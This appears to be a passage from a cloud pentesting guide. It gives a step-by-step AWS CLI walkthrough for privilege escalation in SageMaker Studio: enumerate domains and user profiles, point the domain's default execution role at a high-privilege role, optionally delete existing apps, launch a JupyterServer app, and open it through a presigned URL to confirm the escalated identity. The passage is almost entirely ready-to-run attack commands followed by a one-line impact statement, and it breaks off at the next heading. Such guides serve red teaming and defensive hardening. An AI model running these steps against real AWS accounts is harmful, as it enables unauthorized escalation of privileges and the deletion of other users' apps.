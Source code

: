 ```bash
# 1) List Studio domains and pick a target
aws sagemaker list-domains --query 'Domains[].{Id:DomainId,Name:DomainName}' 

# 2) List Studio user profiles and pick a target
aws sagemaker list-user-profiles --domain-id-equals <DOMAIN_ID>

# Choose a more-privileged role that already trusts sagemaker.amazonaws.com
ROLE_ARN=arn:aws:iam::<ACCOUNT_ID>:role/<HighPrivSageMakerExecutionRole>

# 3) Change the domain default so every profile inherits the new role
aws sagemaker update-domain \
  --domain-id <DOMAIN_ID> \
  --default-user-settings ExecutionRole=$ROLE_ARN

aws sagemaker describe-domain \
  --domain-id <DOMAIN_ID> \
  --query 'DefaultUserSettings.ExecutionRole' --output text

# 3.1) Optional if you need to delete existing apps first
# List existing apps
aws sagemaker list-apps \
  --domain-id-equals <DOMAIN_ID> 

# Delete an app
aws sagemaker delete-app \
  --domain-id <DOMAIN_ID> \
  --user-profile-name <USER> \
  --app-type JupyterServer \
  --app-name <APP_NAME>

# 4) Create a JupyterServer app for a user profile (will inherit domain default role)
aws sagemaker create-app \
  --domain-id <DOMAIN_ID> \
  --app-type JupyterServer \
  --app-name js-domain-escalated

# 5) Generate a presigned URL to access Studio with the new domain default role
aws sagemaker create-presigned-domain-url \
  --domain-id <DOMAIN_ID> \
  --user-profile-name <USER> \
  --query AuthorizedUrl --output text

# 6) Open the URL in browser, navigate to JupyterLab, open Terminal and verify:
#    aws sts get-caller-identity
#    (should show the high-privilege role from domain defaults)
```

**Potential Impact**: Privilege escalation to the permissions of the specified SageMaker execution role for interactive Studio sessions.

### `sagemaker:CreateApp`, `sagemaker:CreatePresignedDomainUrl`
